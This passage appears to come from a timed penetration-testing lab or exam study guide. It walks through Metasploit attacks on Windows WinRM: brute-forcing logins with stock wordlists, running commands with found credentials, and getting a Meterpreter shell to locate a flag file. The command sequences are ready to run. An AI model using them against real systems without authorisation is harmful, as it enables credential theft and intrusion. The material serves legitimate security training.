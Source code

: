 ```bash
set CMD whoami
exploit
```

#### **Scenario 2: Password Attack with Wordlists**
**Given:** WinRM service confirmed, need to find valid credentials
**Your Job:** Use password lists to find working login
**Time Limit:** 6-8 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Set up brute force attack (2 minutes)
use auxiliary/scanner/winrm/winrm_login
set RHOSTS target_ip
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false

# Step 2: Run attack and wait for results (3 minutes)
exploit
# Watch for [+] Login Successful messages

# Step 3: Verify access with command (1 minute)
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME [discovered_username]
set PASSWORD [discovered_password]
set CMD hostname
exploit
```

#### **Scenario 3: Full System Compromise**
**Given:** Valid WinRM credentials (bob:password123)
**Your Job:** Get full system access and find specific file
**Time Limit:** 5-7 minutes

**Step-by-Step Approach:**
```bash
# Step 1: Get meterpreter shell (3 minutes)
use exploit/windows/winrm/winrm_script_exec
set RHOSTS target_ip
set USERNAME bob
set PASSWORD password123
set FORCE_VBS true
exploit

# Step 2: Check privileges (1 minute)
meterpreter > getuid
meterpreter > sysinfo

# Step 3: Find target file (2-3 minutes)
meterpreter > cd /
meterpreter > dir
meterpreter > search -f flag.txt
meterpreter > cat flag.txt
```

